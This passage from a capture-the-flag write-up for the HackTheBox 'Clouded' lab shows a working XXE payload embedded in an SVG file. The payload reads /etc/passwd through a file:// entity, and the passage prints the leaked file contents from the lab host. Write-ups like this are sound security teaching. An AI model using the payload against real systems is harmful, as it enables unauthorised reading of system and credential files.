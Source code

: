 Trying a few payloads, XXE ends up being the way to go, getting a read on `/etc/passwd` using the `file://` URI.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd" [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg">
  <text x="20" y="35">My &xxe;</text>
</svg>
```

![cloudedxxe.png](images/24-htbuni/cloudedxxe.png)

The file on `local.clouded.htb`:
```xml
<svg xmlns="http://www.w3.org/2000/svg" width="100%" height="100%" viewBox="0 0 100 100">
  <text x="20" y="35">My root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
libstoragemgmt:x:999:997:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
ec2-instance-connect:x:998:996::/home/ec2-instance-connect:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
```